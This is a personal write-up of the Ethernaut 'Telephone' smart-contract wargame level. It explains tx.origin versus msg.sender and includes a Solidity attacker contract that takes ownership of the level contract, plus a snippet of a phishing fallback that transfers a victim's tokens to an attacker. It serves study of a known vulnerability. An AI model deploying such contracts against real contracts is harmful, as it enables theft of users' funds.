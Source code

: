 ```yaml
---
title: "5. Telephone"
tags:
- writeups
---
```


- [diff between tx.origin & msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
	- `msg.sender`
		- gives direct sender of the msg *(user wallet or another smart contract)*
		- checks where the external function call directly came from
	- `tx.origin`
		- original user wallet that initialized the tx
		- the origin addr of potentially an entire chain of txs & calls
		- `tx.origin` can be only user wallets, not contract ones

## Exploitation
- We can trick the `(tx.origin != msg.sender)` by spoofing `msg.sender`
	- `tx.origin` will be our user address *(i.e `owner` from `PhoneChain`)*
	- `msg.sender` will be the address of the attacking contract
	- thus bypassing the check
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // change the owner based on tx.origin
    // we can spoof this
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract PhoneChain {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function claimOwnership() payable public{
    Telephone(0x9F728A9a2B2c6AC2A008F828086DB24FF5e5fA9d).changeOwner(owner);
  }
}
```

## Takeaways
- confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)
	- use `tx.origin` to determine whose tokens to transfer
		```solidity
		function transfer(address _to, uint _value) {
			tokens[tx.origin] -= _value;
			tokens[_to] += _value;
		}
		```
	- attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract
		- `tx.origin`: victim addr while `msg.sender` is the malicious contract's addr
		- results in funds being transferred from the victim to the attacker
		```solidity
		function () payable {
			token.transfer(attackerAddr, 10000);
		}
		```
- don't use `tx.origin` for authentication purposes

## Refs
- [Contracts using tx.origin for auth are vulnerable](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- [Phising with tx.origin](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)

## See Also
- [[Ethernaut Wargame]]
